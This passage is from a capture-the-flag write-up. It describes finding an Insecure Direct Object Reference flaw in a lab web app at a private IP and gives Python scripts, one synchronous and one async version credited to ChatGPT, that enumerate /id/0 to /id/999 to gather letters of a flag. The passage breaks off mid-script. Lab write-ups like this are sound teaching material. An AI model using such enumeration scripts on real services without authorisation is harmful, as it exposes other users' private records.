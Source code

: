 ### IDOR 
When I accessed the web, it displayed only one character on the screen, nothing more. However, I noticed that the URL contained a directory `/id/0`.
<p align="center">
  <img src="https://user-images.githubusercontent.com/38382423/218241933-ab926671-c47c-4b96-a751-b7476b426dd9.png" alt="12">
</p>

I found out that I could increase the number from `0` to `n` so that leading to an IDOR vulnerability. 
> IDOR stands for Insecure Direct Object Reference, a vulnerability in which an attacker can manipulate a parameter in a URL to gain access to sensitive information or unauthorized actions.

<p align="center">
  <img src="https://user-images.githubusercontent.com/38382423/218241934-a9910dc7-d53a-40fd-a447-d9abff864ed8.png" alt="13">
</p>

But it seems like each page only contains one letter. I had the idea of trying to increase the number in the `/id/NUMBER` and combine the letters I obtained. After the first `10` numbers, put it all together and the words is '**Hello World**'. So if we keep increasing and combining the letters so we can get a meaning word or even flag. The problem here is that we don't know the limit of the `id` number and when it will stop. I have even tried `999`, but there are still more letters.
<p align="center">
  <img src="https://user-images.githubusercontent.com/38382423/218241935-35c38574-4027-42a5-a2de-74284e819af0.png" alt="14">
</p>

### Retrieve Letters Script
Imagine manually visiting each page by hand and don't even know its limit, you would waste your life time. I decided to make a small script that would automatically access the website within a certain range of `id` number and get those letters, then put them together:
```python
import requests

for i in range(0, 1000):
    url = f"http://10.10.217.246/id/{i}"
    response = requests.get(url)
    if response.status_code == 200:
        print(response.content.decode("utf-8"))
```
The script is working, but it's taking a long time to make each request. So I decided to optimize the code with the help of ChatGPT. Using the keywords "*send simultaneous requests*", "*asyncio*", and "*aiohttp*".
```python
# Generated By ChatGPT
import asyncio
import aiohttp

async def send_request(session, url):
    async with session.get(url) as response:
        if response.status == 200:
            content = await response.text()
            return content

async def main():
    async with aiohttp.ClientSession() as session:
        tasks = []
        for i in range(0, 1000):
            url = f"http://10.10.217.246/id/{i}"
            task = asyncio.ensure_future(send_request(session, url))
            tasks.append(task)
        
        responses = await asyncio.gather(*tasks)

        with open("flag.txt", "w") as f:
```